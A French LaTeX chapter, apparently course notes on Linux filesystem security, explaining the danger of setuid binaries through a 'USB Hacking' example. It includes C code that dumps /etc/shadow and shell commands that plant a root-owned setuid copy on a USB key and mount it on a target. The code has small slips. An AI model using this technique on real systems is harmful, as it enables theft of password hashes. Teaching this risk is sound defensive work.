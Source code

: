 \chapter{Sécurité des systèmes de fichier}

Surtout système linux, un exécutable qui possède le bit "s" à '1' est très dangereux. Il faut limiter le maximum d'application nécessitant ce bit. Voici un exemple concret, qui montre le danger de l'execution d'un tel programme.

\section{USB Hacking}

Imaginons un simple programme qui permet de lire le fichier "shadow" afin de pouvoir essayer de cracker les mots de passes.

Voici le code source :
\begin{lstlisting}[frame=single,style=C]  % Start your code-block

#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <sys/stat.h>



int main()
{
FILE *pFile;
char line [128];
char *p="";

    pFile = fopen ("/etc/shadow", "r");
    if (pFile)
    {
        memset (&line[0], 0, sizeof(line));
        for (;fgets (&line[0], sizeof(line)-1, pFile);)
        {
            printf ("%s", &line[0]);
            memset (&line[0], 0, sizeof(line));
        }
        fclose (pFile);
    }
    else
        printf ("Can not open the /etc/shadow file\n");
    
    //execl("./setuid_test", "./setuid_test", NULL);
    return 0;
\end{lstlisting}

On le compile, on copie l'exécutable sur la clé USB et on change le bit "s" de ses droits :
\begin{lstlisting}[frame=single,style=Bash]  % Start your code-block

# cp readShadowArm /media/usb_disk
# chown root.root readShadowArm
# chmod u+s readShadowArm
\end{lstlisting}

Sur la cible on monte la clé USB et on en vérifie les droits :
\begin{lstlisting}[frame=single,style=Bash]  % Start your code-block

# mkdir /tmpt/t
# mount -t ext4 /dev/sda2 /tmp/t
# cd /tmp/t
# ls -al
	-rwsrwxrwx    1 root     root          6705 May 21  2015 readShadowArm
\end{lstlisting}


